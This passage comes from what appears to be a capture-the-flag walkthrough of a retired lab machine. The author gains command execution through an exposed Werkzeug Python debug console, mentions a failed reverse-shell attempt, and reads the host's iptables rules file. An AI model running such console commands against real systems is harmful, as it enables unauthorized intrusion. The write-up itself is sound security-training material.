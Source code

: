 Looks like we have found a python console. Let's put it to work.

![CONSOLE](/img/joker-console.png)

### Exploitation

There are a few different ways to run commands here, as a note this console is single-threaded and if you run commands a certain way it will lock up the console if other people are using it. This really shouldn't be much of an issue now that the box is retired and has low volume but as a good practice you should use `subprocess` when running commands. Let's verify command execution.

```
[console ready]
>>> import subprocess
>>> subprocess.check_output(['id'])
'uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)\n'
```

Right off the bat I tried a regular python reverse shell but got no repsonse. Also not able to download files via wget. It seems like a firewall might be blocking connections. We find the iptables rules located in `/etc/iptables/rules.v4`

```
>>> subprocess.check_output(['cat','/etc/iptables/rules.v4'])
'# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017\n*filter\n:INPUT DROP [41573:1829596]\n:FORWARD ACCEPT [0:0]\n:OUTPUT ACCEPT [878:221932]\n-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT\n-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT\n-A INPUT -i ens33 -p udp -j ACCEPT\n-A INPUT -i ens33 -p icmp -j ACCEPT\n-A INPUT -i lo -j ACCEPT\n-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP\nCOMMIT\n# Completed on Fri May 19 18:01:16 2017\n'
```

Let's clean up the formatting.

```
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017  
```

